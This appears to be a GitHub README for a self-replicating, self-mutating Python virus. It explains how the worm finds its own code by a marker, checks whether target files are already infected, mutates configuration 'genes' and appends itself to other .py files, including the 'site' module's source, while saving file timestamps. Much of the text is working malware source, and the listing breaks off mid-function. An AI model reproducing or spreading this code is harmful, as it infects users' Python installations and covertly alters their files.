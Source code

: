[English | [简体中文](https://github.com/pypy66/python-self-replication/blob/main/README_chs.md)]

A simple Python virus that spreads through .py files and can mutate itself, NOT permitted for illegal use!  

## Program Principle

This project implements a Python script with **self-propagation** and **mutation** capabilities.  
Main functionalities:
1. **Extract self-code**: Reads the current script file and extracts the code segment marked by specific tags.
2. **Check propagation conditions**: Verifies if the target file meets propagation conditions (e.g., file size, whether it already contains the script).
3. **Gene mutation**: Randomly mutates core configuration parameters during propagation.
4. **Propagate code**: Appends the mutated gene and script code to the target file.
5. **Propagation history and count tracking**: Updates the record of infected files, embedding the "memory" into the script's genes.

Below is an introduction to the execution process of the latest version, `worm_v3.py`.

### 1. **Initialization Markers**
The program first defines a `genes` dictionary and a marker string `mark`:
```python
genes = {'minsize': 3072, 'target_mod': 'site', 'cnt': 0, 'memory': []}
mark = "#####MyPython####"  # Unique identifier
```
- **Gene `genes`**:
  - `minsize`: Minimum size of the target file (in bytes). The script propagates only if the file size exceeds this value.
  - `target_mod`: Target module name. The script attempts to append itself to the source file of this module.
  - `cnt`: Tracks the number of times the script has propagated.
  - `memory`: Records modified files as part of the embedded "memory" in the genes.
- **`mark`**: A unique identifier for the script, used to detect whether the target file has already been infected and to locate the script's code in the source file.

### 2. **Extract Self-Code**
The script reads its own code using the `find_code` function:
```python
def find_code(file):
    code = ''
    with open(file, encoding="utf-8") as f:
        for line in f:
            if mark in line.strip():
                code = line + f.read()
    return code
```
- Opens the current script file (`__file__`).
- Searches for the line containing `mark`, identifying the starting location of the script.
- Extracts all code from the marker line onward.

### 3. **Propagation Logic**
**Propagation to a file** (function `spread_to_file`):
```python
def spread_to_file(file, code):
    import os; stat = os.stat(file)
    old_time = stat.st_atime, stat.st_mtime
    with open(file, 'r', encoding='utf-8') as f:
        for line in f:
            if mark in line: return
    if os.path.getsize(file) >= genes['minsize']:
        backup = genes['memory'].copy()
        add_memory(genes, os.path.split(file)[1])
        with open(file, 'a', encoding='utf-8') as f:
```
